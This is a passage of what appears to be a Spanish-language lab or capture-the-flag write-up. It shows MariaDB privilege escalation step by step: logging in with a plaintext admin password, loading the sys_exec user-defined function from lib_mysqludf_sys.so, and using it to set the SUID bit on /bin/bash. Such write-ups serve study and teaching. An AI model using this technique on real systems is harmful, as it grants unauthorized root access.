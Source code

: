 Ahora nos volvemos a conectar para cargar la funcion:
```bash
mysql -u admin -pPassAdmin123-
```

Listamos las bases de datos existentes:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
```

Nos cambiamos de base de datos:
```bash
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> 
```

Ahora cargamos la funcion:
```bash
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
```

Vemos que se cargo correctamente:
```bash
Database changed
MariaDB [mysql]> CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
Query OK, 0 rows affected (0.010 sec)
```

Ahora podemos usar esa funcion para ejecutar comandos:
```bash
SELECT sys_exec('chmod u+s /bin/bash');
```

```bash
MariaDB [mysql]> SELECT sys_exec('chmod u+s /bin/bash');
+---------------------------------+
| sys_exec('chmod u+s /bin/bash') |
+---------------------------------+
|                               0 |
+---------------------------------+
1 row in set (0.003 sec)
```

Listamos los permisos de la bash:
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
